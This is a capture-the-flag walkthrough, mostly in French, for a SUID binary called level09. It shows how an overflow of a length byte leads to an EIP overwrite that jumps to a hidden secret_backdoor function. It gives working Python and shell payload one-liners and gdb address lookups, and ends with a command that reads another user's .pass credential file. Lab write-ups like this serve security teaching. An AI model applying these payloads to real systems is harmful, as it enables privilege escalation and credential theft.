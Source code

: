 Le programme appelle 2 fonctions a le suite nous demandant des inputs. on se rend compte que dans le username, on copie 41 octets, il est donc possible de modifier la valeur de v7 qui est aussi la valeur donnee au strncpy de set_msg.
On peut donc strcpy jusqu'a 255 caracteres, ce qui nous permet de changer l'EIP pour jump sur la fonction secret_backdoor.

# Walkthrough - level09

The program has SUID permissions from the user `end`, which will allow us to obtain their flag.

# Dissassembly

- Lorsqu'on check les securites on remarque que PIE est enabled
- Le main appelle une fonction handle_msg qui appelle elle-meme deux fonctions set_username et set_msg
- Il y a une fonction secret_backdoor dans le fichier non appelee permettant de faire un appel a system en lisant depuis l'entree standard

# Exploit

L'objectif est de reecrire l'EIP de la frame de handle_msg pour qu'il pointe sur la fonction secret_backdoor.
Dans la fonction set_msg, on lit 1024 octets sur l'entree standard mais seuls les `*(v1 + 180)` soit la valeur de `v7` sont pris en compte.
On remarque dans le set_username que l'on ecrit 41 octets a partir de `v1 + 140`. On peut donc reecrire l'octet de poids faible de `v7` jusqu'a un maximum de `0xff` soit 255.

On essaye alors de voir si on peut segfault avec 255 caracteres ecrits dans le strncpy de set_msg.
```bash
(python -c 'print("\xff" * 41)'; python -c 'print("A" * 255)') | ./level09
```

On arrive effectivement a faire segfault, on calcule alors notre offset avec le buffer overflow pattern generator et on obtient 200.

On souhaite maintenant trouver l'addresse de la fonction secret_backdoor :
```bash
gdb ./level09
(gdb) p secret_backdoor 
$1 = {<text variable, no debug info>} 0x88c <secret_backdoor>
```

Il nous reste alors a entrer l'addresse de la fonction secret_backdoor apres l'offset et afficher le mot de passe de `end` :
```bash
(python -c 'print("\xff" * 41)'; python -c 'print("A" * 200 + "\x8c\x08\x00\x00\x00\x00\x00\x00")'; echo "cat /home/users/end/.pass" ) | ./level09
```

Cela ne fonctionne pas a cause du PIE. Le PIE est une securite qui va charger le programme a un endroit different a chaque execution.
Cependant, on observe qu'en lancant le programme dans gdb l'offset donne par le PIE est constant. En effet, la fonction de randomisation de l'offset donne par PIE appelee ASLR ne semble pas enabled. L'offset est donc toujours le meme, on peut ainsi recuperer l'addresse des fonctions dans gdb durant l'execution du programme :
```bash
gdb ./level09
(gdb) b main
(gdb) run
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

On peut alors executer a nouveau la commande precedente avec notre nouvelle addresse :
```bash
(python -c 'print("\xff" * 41)'; python -c 'print("A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo "cat /home/users/end/.pass" ) | ./level09
```
